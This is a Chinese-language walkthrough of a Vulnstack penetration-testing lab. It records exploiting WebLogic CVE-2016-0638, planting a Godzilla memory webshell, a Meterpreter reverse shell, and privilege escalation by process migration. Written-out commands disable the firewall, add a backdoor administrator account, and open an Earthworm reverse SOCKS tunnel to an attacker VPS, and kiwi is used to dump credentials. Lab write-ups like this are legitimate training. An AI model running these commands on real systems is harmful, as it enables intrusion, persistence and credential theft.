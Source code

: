 ## 文章

http://vulnstack.qiyuanxuetang.net/vuln/detail/3/

[环境搭建视频](https://www.bilibili.com/video/BV1De4y1a7Ps/?spm_id_from=333.788.recommend_more_video.2&vd_source=c1315f6e47145c74f7c3b5f579a7e70d)

[打靶视频](https://www.bilibili.com/video/av260054312/?spm_id_from=333.788.video.desc.click&vd_source=c1315f6e47145c74f7c3b5f579a7e70d)

[打靶场 WP](https://mp.weixin.qq.com/s/x6-i7LF_Zy0gPSnutaNmpg)

## 打靶过程

nmap 扫到 Web 靶机 7001 端口开有 WebLogic服务

![image-20230922194548444](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230922194548444.png)

通过 [WeblogicTool](https://github.com/KimJun1010/WeblogicTool)发现存在CVE_2016_0638

哥斯拉内存马注入

![image-20230922194722744](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230922194722744.png)

成功获得shell

![image-20230922194800616](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230922194800616.png)

msf 木马反弹TCP直接上线

![image-20230923093535390](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230923093535390.png)

使用`getsystem`无法提权

使用 `post/windows/gather/arp_scanner` arp扫描内网

![image-20230923102318319](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230923102318319.png)

传入fscan扫一下看看

![image-20230923101417583](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230923101417583.png)

因为Web当前为普通用户，所以通过进程迁移提权

```bash
# 迁移到services.exe
migrate 512
```

获得SYSTEM权限

![image-20230923185605435](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230923185605435.png)

关防火墙

```bash
netsh advfirewall set allprofiles state off 
```

360进程杀不掉，尝试远程桌面连接

```bash
netstat -ano | findstr 3389 # 查看远程桌面端口是否开启
```

![image-20230923185804785](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230923185804785.png)

添加新用户

```
# 添加用户 密码别太简单，可以会因为密码策略而添加不进
net user Ki1ro @Abc807723 /add

# 查看用户有没有添加进行
net user

# 添加进管理员组
net localgroup administrators Ki1ro /add
```

![image-20230923185927100](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230923185927100.png)

远程桌面连接

```bash
# 远程桌面连接
rdesktop 192.168.111.80
```

成功远程桌面连接，将360关闭

![image-20230923191505114](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20230923191505114.png)‘使用ew进行内网穿透

```bash
# 内网穿透
./ew_for_linux64 -s rcsocks -l 1080 -e 1234 # 公网vps上面开启Earthworm监听
ew_for_Win.exe -s rssocks -d 192.168.111.128 -e 1234
```

然后通过`load kiwi`可以获取administrator的密码，再通过10.10.10.80作为跳板，远程桌面连接其他两个内网靶机就可以了

